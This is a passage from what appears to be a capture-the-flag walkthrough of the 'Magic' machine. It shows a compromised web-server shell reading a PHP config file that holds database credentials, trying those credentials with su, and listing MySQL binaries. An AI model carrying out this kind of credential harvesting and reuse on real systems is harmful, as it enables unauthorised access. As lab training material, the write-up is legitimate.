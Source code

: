 On doing some Enumertaion we can find `DB Creds` in `db.php5` file in `var/www/Magic`

```bash
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
    ......................................
?>
www-data@ubuntu:/var/www/Magic$ 
```

Hurray We got `password` for theseus

```bash
www-data@ubuntu:/$ su theseus
su theseus
Password: iamkingtheseus

su: Authentication failure
www-data@ubuntu:/$ 
```
Authentication Failure.

Then this should be the login password of the MySQL database. When I was ready to use the `mysql` command, I was prompted `apt-get install`, but the MySQL service was clearly running on the target machine

Let's see what all mysql services we have

```bash
www-data@ubuntu:/$ ls -lah /usr/bin | grep mysql
ls -lah /usr/bin | grep mysql
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_config_editor
-rwxr-xr-x  1 root root      22M Jan 21 06:10 mysql_embedded
-rwxr-xr-x  1 root root     5.0M Jan 21 06:10 mysql_install_db
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_plugin
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysql_secure_installation
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_ssl_rsa_setup
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_tzinfo_to_sql
-rwxr-xr-x  1 root root     4.3M Jan 21 06:10 mysql_upgrade
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqladmin
lrwxrwxrwx  1 root root       10 Jan 21 06:10 mysqlanalyze -> mysqlcheck
-rwxr-xr-x  1 root root     3.9M Jan 21 06:10 mysqlbinlog
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlcheck
-rwxr-xr-x  1 root root      27K Jan 21 06:10 mysqld_multi
-rwxr-xr-x  1 root root      28K Jan 21 06:10 mysqld_safe
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqldump
-rwxr-xr-x  1 root root     7.7K Jan 21 06:10 mysqldumpslow
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlimport
lrwxrwxrwx  1 root root       10 Jan 21 06:10 mysqloptimize -> mysqlcheck
-rwxr-xr-x  1 root root     4.1M Jan 21 06:10 mysqlpump
lrwxrwxrwx  1 root root       10 Jan 21 06:10 mysqlrepair -> mysqlcheck
-rwxr-xr-x  1 root root      39K Jan 12  2018 mysqlreport
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlshow
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlslap
www-data@ubuntu:/$ 
```
